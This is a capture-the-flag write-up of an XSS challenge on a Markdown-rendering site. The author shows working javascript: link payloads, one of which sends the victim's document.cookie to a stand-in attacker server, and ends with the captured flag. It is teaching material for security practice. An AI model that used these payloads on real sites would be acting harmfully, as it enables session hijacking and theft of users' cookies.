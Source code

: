 # Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```,this will create a ```<a>``` tag, i will use this as payload and the result:
![XSS-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-xss.png)

Then i try ```<javascript:alert(document.cookie)>```, the result:
![Cookie-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-cookie.png)

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:
![Cookie-to-server](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-get-cookie-test.png)
Now we are ready to steal admin cookie
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>```
And #BINGO
![Admin-cookie](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-admin-cookie.png)
# flag{92da883eb1df9d1287ff25f1a1099f29}
:smile: :heavy_check_mark:

